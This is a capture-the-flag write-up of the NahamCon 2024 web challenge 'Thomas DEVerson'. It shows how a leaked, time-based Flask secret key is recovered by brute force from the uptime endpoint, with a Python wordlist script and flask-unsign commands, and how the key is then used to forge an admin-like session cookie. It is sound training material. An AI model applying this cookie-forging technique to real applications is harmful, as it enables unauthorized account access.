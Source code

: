 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | Thomas DEVerson Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: web
challenge: Thomas DEVerson
tags: "web, legend, nigamelastic, twh, api, flask, flask-unsign"
date: 2024-05-28T00:00:00+00:00
last_modified_at: 2024-05-28T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2024</h1>


## Thomas DEVerson
> Solved by : Legend, nigamelastic, thewhiteh4t


- The site has 3 endpoints `messages` `login` and `status`
- if you put any random query as post on the login u are redirect to ‘messages’ without being logged in. 
- we find another directory called `backup` which has the following content.

```
command output: {head -n 10 app.py}

from flask import (Flask, flash, redirect, render_template, request, send_from_directory, session, url_for)
from datetime import datetime

app = Flask(__name__)

c = datetime.now()
f = c.strftime("%Y%m%d%H%M")
app.secret_key = f'THE_REYNOLDS_PAMPHLET-{f}'

allowed_users = ['Jefferson', 'Madison', 'Burr'] # No Federalists Allowed!!!!

command output: {head -n 10 requirements.txt}

Flask==3.0.3
```

- All accounts show an error message on login attempts : `a``ccount is protected!`


- however the responses had some interesting cookies :

```
HTTP/1.1 302 FOUND
Server: Werkzeug/3.0.3 Python/3.8.10
Date: Thu, 23 May 2024 23:17:43 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 189
Location: /
Vary: Cookie
Set-Cookie: session=.eJwNxcENgCAMBdBV6j8zgUcdwxDTYEUTKYaWk3F3fZf3YN0vtkMM4_KA_A9FzDgLAmZWrU5XzacSG029tUCcUu3qdBrdrbokl21AfGOAchGMyF3M8X7pNCAR.Zk_Olw.CgFkkfYZmHi5O8_eaqSwj7VohO8; HttpOnly; Path=/
Connection: close

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.
```

- these look like JWT but these are slightly different
- flask cookies can be decoded using `flask-unsign` tool
- for example cookies on the homepage can be decoded like this : 

```
> flask-unsign --cookie 'eyJuYW1lIjoiZ3Vlc3QifQ.ZlDcbw.D5h97i6PYmF5THUXwBgTVzPXMbU' --decode
{'name': 'guest'}
```

- although the cookie can be read but it is signed, if we want to manipulate the cookie we need a `secret key` which was used in the app to sign the new new cookie
- going back to `/backup` we can see how the app generated the secret key :

```python
c = datetime.now()
f = c.strftime("%Y%m%d%H%M")
app.secret_key = f'THE_REYNOLDS_PAMPHLET-{f}'
```

- and lets also take a look at the `/status` endpoint :

```
System healthy! Computing uptime... 82817 days 9 hours 48 minutes
```

- here the hint is that app was started once and it is running without fail
- we can roughly calculate the launch time using the following logic : 

```
launch time = current time - uptime
```

- this can easily be done using a python script but we wont get the exact time the key was generated because app launch and key generation will have different timings depending on multiple factors so we need to adjust the launch time a bit to get the exact key generation time

```
#!/usr/bin/env python3

import requests
from datetime import datetime, timedelta

base_url = 'http://challenge.nahamcon.com'
port = 30311
path = 'status'

url = f'{base_url}:{port}/{path}'
rqst = requests.get(url)

resp = rqst.text.split('\n')[1].split(' ')

days = int(resp[0])
hours = int(resp[2])
mins = int(resp[4])

uptime = timedelta(days=days, hours=hours, minutes=mins)

current_time = datetime.now()

launch_time = current_time - uptime

with open('list.txt', 'w') as outfile:
        for i in range(0, 1000):
                forward_time = launch_time - timedelta(minutes=i)
                format_time = forward_time.strftime("%Y%m%d%H%M")
                key = f'THE_REYNOLDS_PAMPHLET-{format_time}'
                outfile.write(key + '\n')
```

![](https://i.imgur.com/yPpAVlm.png)

- so now we have a list of possible keys which we can test using `flask-unsign` :


![](https://i.imgur.com/KzAzrbN.png)

- SECRET_KEY : `THE_REYNOLDS_PAMPHLET-179708250845`
- now we can easily modify the cookie and use any of the allowed usernames to read `/messages`

```
> flask-unsign --cookie "{'name': 'Burr'}" --sign --secret 'THE_REYNOLDS_PAMPHLET-179708250845'
eyJuYW1lIjoiQnVyciJ9.ZlDfmg.x3PYD73ZIkbVJhdpJ4c8UdYfGyg
```

![](https://i.imgur.com/IBfF7Bi.png)

